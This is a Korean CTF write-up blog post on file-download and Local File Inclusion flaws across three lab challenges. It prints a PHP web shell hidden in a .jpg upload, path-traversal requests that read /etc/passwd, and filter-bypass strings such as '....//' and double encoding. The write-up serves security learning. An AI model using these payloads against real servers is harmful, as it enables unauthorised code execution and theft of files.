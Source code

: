 ```yaml
---
title: "File Download & LFI"
date: 2025-07-25
excerpt: "File Download 기능과 LFI(Local File Inclusion) 취약점을 활용한 CTF 문제 풀이 기록으로, 파일 다운로드 기능의 파라미터 조작을 통해 서버 내 임의 파일을 열람하거나, LFI를 통해 PHP 코드 실행 흐름으로 확장하는 과정을 다룬다."
layout: single
toc: true
toc_label: "File Download & LFI"
toc_icon: "book"
toc_sticky: true
categories: [web]
tags: [web, file download, lfi, hacking]
header:
  teaser: /assets/web-screenshots/file-download-lfi/file-download.png
  teaser_home_page: true
---
```


# 개요

이 페이지는 File Download 기능과 LFI(Local File Inclusion) 취약점을 활용한 CTF 문제 풀이 기록입니다.

실습에서는 파일 다운로드 기능의 파라미터 조작을 통해 서버 내 임의 파일을 열람하거나, LFI를 통해 PHP 코드 실행 흐름으로 확장하는 과정을 다룹니다.

---

# 문제 풀이 정리

## Web Shell

![글쓰기](/assets/web-screenshots/file-download-lfi/web_shell_create.png)

대상 웹 애플리케이션에는 게시글 작성 기능이 있으며, 이 중 파일 업로드 입력란이 존재한다.

![업로드 실패](/assets/web-screenshots/file-download-lfi/web_shell_upload_fail.png)

위와 같이 `.php` 확장자를 가진 파일을 업로드할 경우, **업로드가 허용되지 않는 파일 형식입니다.** 라는 메시지가 출력되며 업로드가 차단된다.

후에 Content-Type 변경, 다중 확장자 우회, MIME 타입 조작 등 다양한 우회 기법을 시도하였으나, 모두 서버 측 필터링에 의해 차단되었다.

![업로드 성공](/assets/web-screenshots/file-download-lfi/web_shell_upload.png)

서버가 `.php` 확장자의 파일 업로드를 차단하고 있기 때문에, 우회 방식으로 `.jpg` 확장자의 파일에 PHP 코드를 삽입한 뒤 업로드하였다.

**페이로드:**
```php
<?php echo system($_GET['cmd']); ?>
```

이후 **LFI 취약점**을 통해 해당 파일이 `include` 되도록 유도함으로써, 서버가 이를 PHP로 처리하게 만들고 코드 실행을 시도한다.

![의심 발견](/assets/web-screenshots/file-download-lfi/web_shell_parameter.png)

Burp Suite를 활용하여 웹 여러 요청을 확인한 결과,

`theme=modern.php`라는 값이 클라이언트 → 서버로 전송되며, 응답에서도 해당 테마 이름이 다시 응답에서도 해당 테마 이름이 다시 `Set-Cookie` 에 포함되는 구조를 확인하였다.

이로 인해 서버 측에서 `theme` 파라미터를 기반으로 동적으로 PHP 파일을 `include` 하거나 로딩할 가능성이 있는 것으로 보여져,
업로드한 파일에 대한 경로를 지정함으로써 **LFI 공격**이 가능한지 테스트를 진행하였다.

![/etc/passwd](/assets/web-screenshots/file-download-lfi/web_shell_passwd.png)

`theme` 파라미터에 `../../../../etc/passwd` 값을 삽입한 결과, 응답 본문에 리눅스 시스템의 `/etc/passwd` 파일 내용이 출력되었다.

이를 활용하여 업로드된 웹쉘 파일(`shell.jpg`)의 경로를 LFI 지점에 삽입하여 포함시키는 방식으로 코드 실행을 시도한다.

![공격 성공](/assets/web-screenshots/file-download-lfi/web_shell_success.png)

`page=mypage&cmd=ls` 파라미터를 통해 쉘 명령이 정상적으로 실행되었으며, 서버 내부의 디렉토리 및 파일 목록이 출력되는 것을 확인할 수 있었다.

**이제 시스템 내에 저장된 플래그 파일의 위치를 찾기 위해 다음 명령어를 실행하였다:**

```bash
find / -name "flag.txt" 2>/dev/null
```

`flag.txt` 파일의 위치를 확인한 뒤, `cat` 명령어를 통해 해당 파일의 내용을 출력하였다.

![플래그 획득](/assets/web-screenshots/file-download-lfi/web_shell_flag.png)

이렇게 최종적으로 플래그를 획득 하였다.

---

## Get Flag File

![글 쓰기](/assets/web-screenshots/file-download-lfi/get_file1_create.png)

이번에도 파일 업로드 기능이 존재하나, `.php`를 포함한 모든 스크립트 계열 확장자에 대해 업로드가 차단되어 있으며, 

확장자 우회 기법(예: Content-Type 변경, 다중 확장자 우회, MIME 타입 조작 등) 역시 모두 필터링되는 강력한 보안 정책이 적용되어 있는 상태이다.

![다운로드 경로](/assets/web-screenshots/file-download-lfi/get_file1_path.png)

Burp Suite를 이용해 업로드된 게시글의 응답 데이터를 분석한 결과, HTML 본문 내에 첨부파일의 실제 다운로드 경로(`index.php?page=download&filePath=...`)가 명확하게 노출되어 있는 것을 확인하였다.

위 경로를 이용하여 접속을 한 후 Burp Suite로 분석을 해보았다.

![다운로드 경로 2](/assets/web-screenshots/file-download-lfi/get_file1_path2.png)

Burp Suite를 통해 `download` 파라미터에 업로드된 파일 경로(`/var/www/html/uploads/4_shell.jpg`)를 직접 요청한 결과, HTTP 응답 본문에 파일 내부에 삽입한 PHP 코드(`<?php echo system($_GET['cmd']); ?>`)가 그대로 포함되어 있는 것을 확인하였다.

이로 인해 서버가 해당 파일을 PHP로 실행하지 않고 단순 **텍스트 파일로 처리하여 반환**하고 있다는 점을 알 수 있었으며, 이는 곧 파일 내의 임의 코드 노출이 가능하다는 것을 의미한다.

첫 번째 시도로 `/etc/passwd` 경로를 포함시켜 시스템 내 파일 접근 가능성을 검증하였다.

**Burp Suite를 이용하여 다음과 같은 요청을 전송하였다:**

```yaml
GET /index.php?page=download&filePath=../../../../etc/passwd
```

![/etc/passwd](/assets/web-screenshots/file-download-lfi/get_file1_passwd.png)

그 결과, 서버는 `HTTP 200 OK` 응답과 함께 `/etc/passwd` 파일의 내용을 반환하였다. 

이는 서버 측에서 사용자 입력에 대해 별도의 경로 제한이나 필터링 없이 파일을 읽고 응답으로 전달하고 있음을 의미하며, **명확한 LFI 취약점(Local File Inclusion)** 으로 판단된다.

앞선 LFI 취약점을 활용해, 이번에는 웹 애플리케이션 루트 디렉터리에 존재하는 `flag.txt` 파일을 직접 열람하여 내부에 포함된 플래그 값을 확인하고자 하였다.

![플래그 획득](/assets/web-screenshots/file-download-lfi/get_file1_flag.png)

이렇게 웹 애플리케이션 내부에 존재하던 `flag.txt` 파일에 접근하고, 최종적으로 플래그 값을 성공적으로 획득하였다.

---

## Get Flag File 2

이번 문제 역시 이전 문제와 유사하게, 다운로드 기능을 기반으로 한 LFI 취약점(Local File Inclusion) 취약점을 중심으로 구성되어 있다.

![다운로드 경로](/assets/web-screenshots/file-download-lfi/get_file2_path.png)

Burp Suite를 통해 응답 본문을 분석한 결과, 이전 문제와 똑같이 HTML 본문 내에 첨부파일의 실제 다운로드 경로(`index.php?page=download&filePath=...`)가 명확하게 노출되어 있었고.

![공격 성공](/assets/web-screenshots/file-download-lfi/get_file2_success.png)

파일이 다운로드 되는 파일 경로를 통해 Burp Suite로 분석 결과, 해당 파일의 응답 본문에는 삽입한 PHP 코드(`<?php echo system($_GET['cmd']); ?>`)가 그대로 포함되어 있었다.

이를 통해 서버가 해당 파일을 실행하지 않고 단순히 텍스트 파일로 반환하고 있음을 확인하였으며, 이를 기반으로 `/etc/passwd`와 같은 시스템 파일에 대한 접근이 가능한지 여부를 테스트하였다.

![/etc/passwd](/assets/web-screenshots/file-download-lfi/get_file2_passwd.png)

기본적인 `../` 상대 경로를 통한 디렉터리 상위 이동은 서버 측 필터링으로 인해 차단되었다.

이에 따라 다양한 URL 인코딩 기반 우회 기법을 적용하여 경로 우회 가능성을 테스트하였다.

**테스트한 우회 기법은 다음과 같다:**
 - `%252e` → `%2e`로 디코딩되는 Double Encoding
 - `....//` → 중첩 경로를 통한 우회
 - `%2e%2e%2f`, `..%2f..%2f..%2fetc/passwd` 등

이 중, `....//` 방식이 서버에서 유효하게 처리되어, 다음과 같은 요청으로 LFI에 성공하였다.

앞서 확인한 URL 인코딩 기반의 디렉터리 우회 기법(`....//`)을 활용하여, 웹 서버 루트 디렉터리에 존재하는 `flag.txt` 파일에 대한 직접 접근을 시도하였다.

![플래그 획득](/assets/web-screenshots/file-download-lfi/get_file2_flag.png)
 
최종적으로 `flag.txt` 파일 내 플래그를 획득하였다.
